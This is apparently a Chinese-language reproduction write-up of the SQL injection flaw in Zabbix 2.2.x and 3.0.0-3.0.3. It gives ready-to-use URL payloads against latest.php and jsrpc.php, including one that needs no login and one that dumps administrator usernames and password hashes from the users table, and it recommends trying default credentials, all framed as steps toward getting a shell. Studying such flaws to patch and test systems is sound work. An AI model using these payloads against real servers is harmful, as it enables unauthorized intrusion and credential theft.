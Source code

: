 zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

zabbix 2.2.x, 3.0.0-3.0.3版本存在SQL注入漏洞，攻击者无需授权登陆即可登陆zabbix管理系统

Zabbix 的`latest.php中的toggle_ids[]`或`jsrpc.php中的profieldx2参数`存在sql注入，通过sql注入获取管理员账户密码，进入后台，进行getshell操作。



#### 复现

#### latest.php中的toggle_ids[]

需要靶机系统未关闭默认开启guest账户登陆，zabbix 默认账户Admin密码zabbix（弱口令尝试一波~）

使用username：guest，password为空的游客账户登陆

![](https://i.loli.net/2021/02/13/f325W7Ja8FOEejr.png)

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![](https://i.loli.net/2021/02/13/xBVOFagXmtnzeru.png)

将这16个字符作为sid的，构造payload：

```
http://your-ip:8080/latest.php?output=ajax&sid=******************&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,database(),0xa,user()),0)
```

如下：

![](https://i.loli.net/2021/02/13/8uvI9oCdWnzlmYO.png)

#### jsrpc.php的profieldx2参数

也可以通过jsrpc.php触发，且无需登陆

```
http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,database(),0xa,user()),0)
```

如下：

![](https://i.loli.net/2021/02/13/HaBdrgTc81yhO5S.png)



#### getshell

然后就是常规的注入流程啦。拿到管理员账户密码~

payload:

```
http://yourip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0x7e,substr((select group_concat(surname,0x2a,passwd) from users ),1)),0)
```

